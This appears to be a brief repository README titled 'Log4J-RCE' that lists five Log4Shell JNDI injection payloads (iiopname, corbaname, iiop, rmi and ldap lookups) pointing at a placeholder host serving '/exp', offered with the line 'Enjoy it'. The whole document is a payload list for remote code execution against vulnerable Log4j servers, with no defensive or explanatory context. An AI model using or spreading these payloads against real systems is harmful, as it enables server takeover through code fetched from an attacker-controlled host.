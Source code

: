 # Log4J-RCE
Enjoy it ！ o(*￣︶￣*)o
${jndi:iiopname://1.2.3.4/exp}
${jndi:corbaname:iiop:1.2.3.4/exp}
${jndi:iiop://1.2.3.4/exp}
${jndi:rmi://1.2.3.4/exp}
${jndi:ldap://1.2.3.4/exp}
